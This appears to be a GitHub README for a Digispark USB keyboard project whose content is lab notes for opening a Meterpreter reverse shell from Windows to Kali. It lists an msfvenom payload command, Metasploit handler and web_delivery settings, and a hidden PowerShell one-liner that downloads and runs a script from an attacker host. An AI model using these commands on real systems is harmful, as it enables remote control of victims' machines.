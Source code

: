 # B.K.B (good name)

[DigiKeyboard reference](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h)
[DigiMouse reference](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkMouse/DigiMouse.h)

# Opening a revershell from windows to kali

Confingure both machines to be in the same internal network and able to ping each other.

Generate the payload using msfvenon.  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Disbale antirvirus and transfer the payload to the victim machine.

Set up a reverse shell handler in kali.  
```
> use exploit/multi/handler  
> set payload windows/meterpreter/reverse_tcp
> set lhost=<IP>
> set lport=<PORT>
> run
```

Run the exe in victim machine and wait for connection.


# Exploiting via web delivery

In msfconsole,
```
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
```

set lhost and lport

in windows cmd with antivirus disabled,
```
powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://<ip>:<port>/<uri>');
```
